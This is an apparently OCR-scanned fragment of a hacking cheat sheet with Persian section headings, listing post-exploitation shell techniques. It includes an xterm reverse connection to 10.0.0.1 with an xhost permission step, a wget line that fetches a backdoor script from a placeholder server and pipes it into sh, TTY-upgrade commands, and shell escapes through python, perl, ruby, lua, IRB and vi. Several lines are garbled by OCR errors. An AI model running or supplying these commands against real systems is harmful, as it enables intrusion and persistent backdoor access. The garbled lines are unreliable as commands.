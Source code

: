 ```text
xterm -displaj 10.0.0.1:1
o Start Listener: Xnest :1
o Add permission to connect: xhost +victimiP
```

### متفرقه

```text
wget hhtp:// server /backdoor.sh -O- | sh Downloads and runs backdoor.sh
```

### spawn شل

```text
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

```text
try ctrl + z
stty raw -echo 
fg
```

```text
echo os.system('/bin/bash')
```

```text
/bin/sh -i
```


```text
perl —e 'exec "/bin/sh";'
```

```text
perl: exec "/bin/sh";
```

```text
ruby: exec "/bin/sh"
```

```text
lua: os.execute('/bin/sh')
```

```text
(From within IRB)
exec "/bin/sh"
```


```text
(From within vi)
:!bash
```

```text
(From within vi)
:set shell=/bin/bash:shell
```
